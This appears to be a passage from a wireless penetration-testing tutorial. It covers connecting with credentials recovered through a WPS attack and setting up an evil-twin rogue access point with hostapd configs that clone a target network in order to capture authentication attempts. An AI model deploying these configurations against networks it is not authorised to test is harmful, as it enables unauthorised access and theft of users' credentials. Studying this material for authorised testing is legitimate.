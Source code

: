 ### Post-WPS Attack Connection
```bash
# Create WPA supplicant config
wpa_passphrase "MyNetwork" "password123" > wps_network.conf

# Connect using discovered credentials
sudo wpa_supplicant -i wlan0 -c wps_network.conf -B
sudo dhclient wlan0
```

---

## Rogue Access Points {#rogue-ap}

### Rogue AP Attack Strategy
1. **Target Identification**: Find networks with connected clients
2. **Configuration Matching**: Match encryption and settings exactly
3. **Signal Strength**: Position for stronger signal than legitimate AP
4. **Credential Capture**: Collect authentication attempts

### Hostapd Configuration

#### Basic Rogue AP Setup
```bash
# Create hostapd configuration file
cat > rogue_ap.conf << EOF
interface=wlan0
driver=nl80211
ssid=TargetNetwork
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=FakePassword
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP
EOF

# Start rogue AP
sudo hostapd rogue_ap.conf
```

#### Advanced Configuration for Target Matching
```bash
# Match target network exactly (from airodump-ng reconnaissance)
cat > target_clone.conf << EOF
interface=wlan0
driver=nl80211
ssid=RealNetworkName
hw_mode=g
channel=6
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
rsn_pairwise=CCMP
wpa_passphrase=AnyPassword
EOF
```
